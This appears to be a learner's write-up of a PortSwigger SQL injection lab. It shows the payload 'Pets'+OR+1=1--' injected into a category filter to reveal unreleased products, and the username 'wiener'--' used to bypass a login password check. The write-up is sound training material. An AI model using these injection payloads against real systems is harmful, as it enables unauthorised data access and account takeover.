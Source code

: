 ```yaml
---
description: WHERE clause allowing retrieval of hidden data
---
```


# 1e1 - SQL injection vulnerability allowing retrieval of hidden data \[PortSwigger Lab]

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

### Solution:

<figure><img src="/.gitbook/assets/Pasted image 20240719185908.png" alt=""><figcaption><p>web interface</p></figcaption></figure>

So taking this application into BurpSuite and selecting a category "Pets" gives me the following request

`GET /filter?category=Pets HTTP/2`

So what should I inject here to cause the following SQL query to malfunction?

`SELECT * FROM products WHERE category = 'Pets' AND released = 1`

So basically, modifying the original `GET /filter?category=Pets HTTP/2` to `GET /filter?category=Pets'+OR+1=1--' HTTP/2` causes to perform the following SQL query

`SELECT * FROM products WHERE category = 'Pets' OR 1=1-- AND released = 1`

meaning that everything will be displayed since `1=1` is TRUE and after that everything is ignored.

***

Imagine another scenario where an application lets user submit their credentials `wiener:peter`. SQL query might look like this

`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

if the query returns the details the login was seccessful. otherwise, it rejected.

an attacker might be able to login as any user without the need for a password. this can be done using `--` sequence in `WHERE` clause where password is checked. for example submitting the username `wiener'--` would produce the following SQL query

`SELECT * FROM users WHERE username = 'wiener'--' AND password = ''`

successfully logging in a user.

